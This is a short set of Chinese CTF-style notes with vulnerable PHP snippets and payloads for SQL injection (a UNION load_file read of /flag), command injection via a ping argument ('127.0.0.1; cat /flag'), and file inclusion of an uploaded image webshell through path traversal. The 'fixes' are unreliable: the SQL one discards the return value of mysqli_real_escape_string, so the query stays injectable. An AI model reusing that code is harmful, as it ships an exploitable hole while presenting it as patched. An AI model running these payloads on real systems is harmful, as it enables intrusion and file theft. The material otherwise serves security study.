 ```sql
select load_file("/flag");
# username password
' union select load_file('/flag'), 0 ;#
```

修复

```php
<?php
// ...
$id = $_GET['id'];
// ...
mysqli_real_escape_string($conn, $id);
mysqli_query($conn, "SELECT * FROM user WHERE id='$id'");
```

#### 命令执行

```php
<?php
// ...
$id = $_GET['id'];
// ...
shell_exec("ping -c4 $id"); # system...
```

```
127.0.0.1; cat /flag
```

修复

```php
<?php
// ...
$id = $_GET['id'];
// ...
$id = escapeshellarg($id);
shell_exec("ping -c4 $id");
```

#### 文件包含

```php
<?php
// ...
$id = $_GET['id'];
// ...
include("/template/$id");
render($template); # include $template;
```

上传一个图片马到 `/upload/a.png`

访问使得 `id=../upload/a.png`

包含文件马 rce
